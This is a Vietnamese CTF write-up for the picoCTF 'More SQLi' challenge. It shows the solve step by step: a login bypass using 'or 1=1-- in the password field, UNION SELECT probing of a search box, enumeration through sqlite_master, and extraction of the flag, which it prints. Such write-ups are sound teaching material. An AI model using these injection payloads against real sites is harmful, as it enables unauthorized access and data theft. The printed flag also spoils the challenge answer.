

# Write-up : More SQLi
---
### Descriptiom :
> Can you find the flag on this website.
Additional details will be available after launching your challenge instance.
### Hint :
> SQLiLite
---
### Solution :
- Như ta đã thấy thì bài này sài ``` SQLiLite ```, sau khi mở link thì vẫn là form đăng nhập
- sau khi thử đăng nhập bình thường thì có trả về query như sau :
```
username: user
password: pass
SQL query: SELECT id FROM users WHERE password = 'pass' AND username = 'user'
```
- Lần này chúng ta cần phải thêm payload vào ô password chứ không phải username như bình thường tại vì password được truy xuất đến trước username
- Chúng ta sử dụng payload "kinh điển" của lỗi SQL Injection đó là `` 'or 1=1-- ``

  Sau khi đăng nhập thành công, chúng ta thấy xuất hiện 1 màn hình hiển thị danh sách:
  
  
- Như tên của bài thì chắc hẳn là có thêm lỗi SQL injection ở đâu đó nữa
- Ta thử ở ô `` Search `` với câu truy vấn : `` 'UNION SELECT 1,2,3;-- ``
> Tại sao là `` 'UNION SELECT 1,2,3;-- ``, vì ở đây ta thấy xuất hiện 3 cột và các lỗi về sql hoàn toàn không được hiển thị buộc chúng ta phải đoán và chúng ta không thế tốn request để đoán từ 1 cột vì rất dễ bị bộ phận an toàn của web nhận ra, và tại sao lại chọn các con số `` 1,2,3 `` tại vì nó gọn dễ phát hiện khi có vị trí thay đổi thành như thế, ngoài ra là vì số đẹp :)))

Tiếp tục với bài, ta sẽ thấy sau khi search như vậy thì kết quả trả về là :


#### Vậy kết luận là ô search có bị SQL injection và cho biết thêm là bảng có 3 cột 
Việc tiếp theo là tìm các tên bảng và tên cột của bảng :
- Chúng ta dùng payload : `` ' UNION SELECT name, sql, null from sqlite_master;-- `` để lấy tên bảng và tên cột 
- Sau khi tìm qua các bảng và các cột thì tôi phát hiện flag trong bảng `` more_table `` và cột `` flag `` :`` ' UNION SELECT flag, null, null from more_table;-- ``
  ### Flag : `` picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}	``
